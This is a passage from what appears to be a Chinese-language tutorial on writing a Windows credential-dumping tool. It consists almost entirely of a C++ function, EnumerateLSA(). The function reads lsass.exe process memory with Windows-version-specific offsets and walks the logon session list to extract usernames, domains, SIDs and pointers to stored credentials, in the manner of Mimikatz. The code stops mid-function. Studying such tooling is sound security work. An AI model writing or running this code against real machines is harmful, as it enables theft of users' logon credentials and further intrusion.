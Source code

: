 # 2. 枚举 LSA 信息

编写 `EnumerateLSA()` 函数，用于枚举有关的 Lsa 信息，包括 lsass.exe 进程信息、用户登录会话信息等，该函数定义如下。

```c++
BOOL EnumerateLSA()
{
	BOOL status = FALSE;
	BASIC_SECURITY_LOGON_SESSION_DATA sessionData;
	ULONG nbListes = 1, i;
	PVOID pStruct;
	MEMORY_ADDRESS aBuffer;
	const LSA_ENUM_HELPER* helper;

	status = AcquireLSA();

	if (status)
	{
		if (cLsass.osContext.BuildNumber < WIN_MIN_BUILD_2K3)
			helper = &LsassEnumHelpers[0];
		else if (cLsass.osContext.BuildNumber < WIN_MIN_BUILD_VISTA)
			helper = &LsassEnumHelpers[1];
		else if (cLsass.osContext.BuildNumber < WIN_MIN_BUILD_7)
			helper = &LsassEnumHelpers[2];
		else if (cLsass.osContext.BuildNumber < WIN_MIN_BUILD_8)
			helper = &LsassEnumHelpers[3];
		else if (cLsass.osContext.BuildNumber < WIN_MIN_BUILD_BLUE)
			helper = &LsassEnumHelpers[5];
		else
			helper = &LsassEnumHelpers[6];

		ReadProcessMemory(cLsass.hProcess, LogonSessionListCount, &nbListes, sizeof(ULONG), NULL);
		for (i = 0; i < nbListes; i++)
		{
			if (aBuffer.address = LocalAlloc(LPTR, helper->tailleStruct))
			{
				if (ReadProcessMemory(cLsass.hProcess, &LogonSessionList[i], &pStruct, sizeof(PVOID), NULL))
				{
					while (pStruct != &LogonSessionList[i])
					{
						if (ReadProcessMemory(cLsass.hProcess, pStruct, aBuffer.address, helper->tailleStruct, NULL))
						{
							sessionData.LogonId = (PLUID)((PBYTE)aBuffer.address + helper->offsetToLuid);
							sessionData.LogonType = *((PULONG)((PBYTE)aBuffer.address + helper->offsetToLogonType));
							sessionData.Session = *((PULONG)((PBYTE)aBuffer.address + helper->offsetToSession));
							sessionData.UserName = (PUNICODE_STRING)((PBYTE)aBuffer.address + helper->offsetToUsername);
							sessionData.LogonDomain = (PUNICODE_STRING)((PBYTE)aBuffer.address + helper->offsetToDomain);
							sessionData.pCredentials = *(PVOID*)((PBYTE)aBuffer.address + helper->offsetToCredentials);
							sessionData.pSid = *(PSID*)((PBYTE)aBuffer.address + helper->offsetToPSid);
							sessionData.pCredentialManager = *(PVOID*)((PBYTE)aBuffer.address + helper->offsetToCredentialManager);
							sessionData.LogonTime = *((PFILETIME)((PBYTE)aBuffer.address + helper->offsetToLogonTime));
```